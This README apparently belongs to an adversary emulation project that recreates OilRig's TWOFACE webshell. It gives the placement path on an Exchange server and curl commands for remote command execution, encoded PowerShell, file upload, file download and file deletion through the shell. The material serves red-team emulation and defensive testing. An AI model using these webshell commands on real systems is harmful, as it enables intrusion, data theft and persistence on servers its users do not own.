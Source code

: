 # TWOFACE WebShell Analog

## Setup

This file does not need to be compiled - it is a self contained (i.e., no code-behind file) C# application in
aspx format. However, the default `web.config` file for the IIS site may require modifications, specifically
to add the following line under the `<assemblies>` tag:

`<add assembly="Microsoft.Exchange.Diagnostics, Version=15.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35" />`

For this scenario, OilRig has placed this webshell under `C:\Program Files\Microsoft\Exchange Server\V15\ClientAccess\exchweb\ews`
using various file names (for our purposes, `contact.aspx`)<sup>[1](https://unit42.paloaltonetworks.com/unit42-twoface-webshell-persistent-access-point-lateral-movement/)</sup>.

Default access is limited to Windows Authentication, so requests made to the page will need valid credentials for an authorized user.

## Execution with the Shell

All execution takes place via HTTP POST<sup>[1](https://unit42.paloaltonetworks.com/unit42-twoface-webshell-persistent-access-point-lateral-movement/)</sup>. If a GET request is sent, the C# will not execute and the visitor will be given a fake
error page saying the resource cannot be found on the server. Responses to actions taken with the shell will be provided at the
end of the returned page under a `<pre>` tag. If you are using PowerShell instead of cUrl to issue the request, you will need
to select and expand the Content element of the response.

If Windows Authenticiation is used, cUrl commands must contain additional flags to allow for successful negotiation:
`--http1.1` and `--ntlm`. HTTPV2 does not support NTLM authentication.

### Command Execution

Command execution requires two POST parameters<sup>[1](https://unit42.paloaltonetworks.com/unit42-twoface-webshell-persistent-access-point-lateral-movement/)</sup>:

* `pro` - the process to use for execution (cmd.exe or powershell.exe)
* `cmd` - The command to execute

Commands **are not** URL encoded per the CTI. For complex commands, consider using Base64 and encoded PowerShell. Please note:
'+' is a valid Base64 character and may be converted to a space in transit.

Examples:

```
CMD:
curl --http1.1 --ntlm -u 'domain\user:password' -k -X POST --data "pro=cmd.exe" --data "cmd=whoami" .../EWS/contact.aspx

PowerShell
curl --http1.1 --ntlm -u 'domain\user:password' -k -X POST --data "pro=powershell.exe" --data "cmd=Get-Childitem -Path 'c:\users\'" .../EWS/contact.aspx
curl --http1.1 --ntlm -u 'domain\user:password' -k -X POST --data "pro=powershell.exe" --data "cmd=-e dwBoAG8AYQBtAGkA" .../EWS/contact.aspx
```

### File Actions

The webshell supports two different sets of file actions:

* Upload file to the %TEMP% directory
* Upload file to arbitrary path
* Download file from arbitrary path
* Delete file (from %TEMP% by default, or arbitrary path if supplied)

#### %TEMP% File Upload

File uploads to %TEMP% (`C:\Windows\Temp` by default) require two parameters<sup>[1](https://unit42.paloaltonetworks.com/unit42-twoface-webshell-persistent-access-point-lateral-movement/)</sup>:

* `upd` - the file name to use on the victim
* `upb` - The Base64-encoded content of the file (note: unlike encoded commands above, we have modified this command to replace
spaces with '+' signs to allow for binary file uploads)

Example:

```
curl --http1.1 --ntlm -u 'domain\user:password' -k -X POST --data "upd=file.ext" --data "upb=$(base64 file.ext)" .../EWS/contact.aspx
```

#### Arbitrary Path File Upload

This form up upload requires POST Form data and more parameters<sup>[1](https://unit42.paloaltonetworks.com/unit42-twoface-webshell-persistent-access-point-lateral-movement/)</sup>:

* `upl` - the *POST form field* that contains the file data to write to disk
* `sav` - the path in which to save the file
* `vir` - boolean value to specify if this is a virtual path or physical (default)
* `nen` - the file name on the *victim* (defaults to the uploaded file name)
* \[arbitrary\] - a field containing the file information. **NAME MUST MATCH THE VALUE GIVEN IN upl**

Example:

```
curl --http1.1 --ntlm -u 'domain\user:password' -k -X POST -F "upl=f1" -F 'sav=C:\Users\Public\' -F "vir=false" -F "nen=file.ext" -F 'f1=@file.ext' .../EWS/contact.aspx
```

#### File Download

Downloads only require a single field: `don` - the path to the file<sup>[1](https://unit42.paloaltonetworks.com/unit42-twoface-webshell-persistent-access-point-lateral-movement/)</sup>

Example:

```
curl --http1.1 --ntlm -u 'domain\user:password' -k -X POST -k -X POST -o file.ext --data 'don=c:\windows\temp\file.ext' .../EWS/contact.aspx
```

#### File Delete

File deletes only require a single parameter: `del` - the name of the file to delete<sup>[1](https://unit42.paloaltonetworks.com/unit42-twoface-webshell-persistent-access-point-lateral-movement/)</sup>

If no path is supplied, %TEMP% will be used. Otherwise, specify path\\to\\file.ext

Examples:

```
Deletes from %TEMP%:
curl --http1.1 --ntlm -u 'domain\user:password' -k -X POST --data 'del=file.ext' .../EWS/contact.aspx

Deletes from path:
curl --http1.1 --ntlm -u 'domain\user:password' -k -X POST --data 'del=c:\users\public\file.ext' .../EWS/contact.aspx
```

## Testing

A shell script has been provided to exercise each of the options using cUrl. The user will be prompted for a few
details on where to send the requests and any authentication information (Windows Authentication only). Ensure
the user running the script has write access to the directory it is being run from as a few test files will be made.

`./twoface_tests.sh`

## CTI

[1] [Unit 42 - TwoFace Webshell: Persistent Access Point for Lateral Movement](https://unit42.paloaltonetworks.com/unit42-twoface-webshell-persistent-access-point-lateral-movement/)
